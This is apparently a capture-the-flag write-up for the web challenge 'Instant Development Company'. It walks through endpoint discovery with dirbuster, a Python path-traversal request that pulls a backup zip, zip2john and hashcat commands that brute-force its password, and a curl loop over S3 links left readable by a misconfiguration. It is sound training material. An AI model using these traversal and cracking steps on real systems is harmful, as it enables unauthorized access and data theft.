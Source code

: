 ```yaml
---
layout: post
title: Instant Development Company
description: Red herring city
tags: web secchallenge22
permalink: /sc22/web/instant
hidden: 1
---
```


## Description

Your uncle got scammed but he's too embarrassed to tell you how much he had lost. Can you find out?

[https://instant-development-company.secchallenge.crysys.hu](https://instant-development-company.secchallenge.crysys.hu)

- Author: Andrix

## Solution

Opening up the site we aren't presented with too many options, so we head to the `/review` endpoint through the link on the main page. Its vulnerable to XSS but other than that, I could not find anything interesting.
I decided to go back to the roots, and started running `dirbuster` on the site, and it quickly found a hidden endpoint: `/debug`.

On there we have bunch of options, but downloading source seems like a good place to start.
After acquiring the source files we are presented with:
```
announce.html
base.html
debug.html
index.html
reviews.html
```

Reading through the files, we can see some comments inside the `debug.html` file, which indicate, that a `backup.zip` file with an easy to break password is accessible from the webroot. We can download the mentioned file using a small python script:
```python
import requests

r = requests.post("https://instant-development-company.secchallenge.crysys.hu/download/templates", data = {'template': '../backup.zip'}, verify = False)
with open('backup.zip', 'wb') as f:
	f.write(r.content)
```

From here we are required to crack the password. To do this, we first extract the password hash, then we can use hashcat to crack it.
```bash
zip2john backup.zip > backup.hash
# remove unnecessary content from backup.hash
# or else hashcat will throw errors

# -a brute -m hashtype = PKZIP (Compressed Multi-File) file format
hashcat -a 3 -m 17220 backup.hash ?d?d?d?d?d?d?d?d?d?d
```

Once hashcat crunched all the possibilities, we can unzip the previously extracted zipfile. It contains two files:
```
README.txt
contracts.txt
```

The `README` contains some sort of clue/meme, but the `contracts.txt` is the file we are looking for. It contains a bunch of, already expired S3 links.

At this point I got lucky, and solved the challenge by accident using python (I realized if I use curl, the links remain accessible, and I can read the contents, probably due to some AWS missconfiguration):
```python
import os

with open("contracts.txt", 'r') as f:
	for line in f.readlines():
		r = os.system(f'curl {line}')
```

After the solve, I contacted Andrix, who gave the explaination:
If you forgo the parameters given to the http request (the stuff after the `?` in the URL) you can abuse the AWS S3 missconfiguration.

The acquired flag is:
```
cd22{HIDDEN}
```

[&#8592; Back to SecChallenge22](/sc22)

